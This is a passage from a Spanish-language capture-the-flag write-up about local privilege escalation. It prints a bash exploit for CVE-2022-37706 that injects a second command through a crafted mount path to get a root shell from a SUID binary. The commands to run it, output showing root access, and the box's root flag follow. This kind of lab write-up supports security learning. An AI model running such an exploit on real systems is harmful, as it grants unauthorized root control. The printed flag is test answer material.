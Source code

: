 ```bash

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

```shell
chmod +x exploit.sh
```

```shell
bash exploit.sh
```

Info:

```
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
#
```

Y con esto ya seriamos `root`, por lo que leeremos la flag...

> root.txt (flag2)

```
7d1abced1792429d9344f405b112713a
```

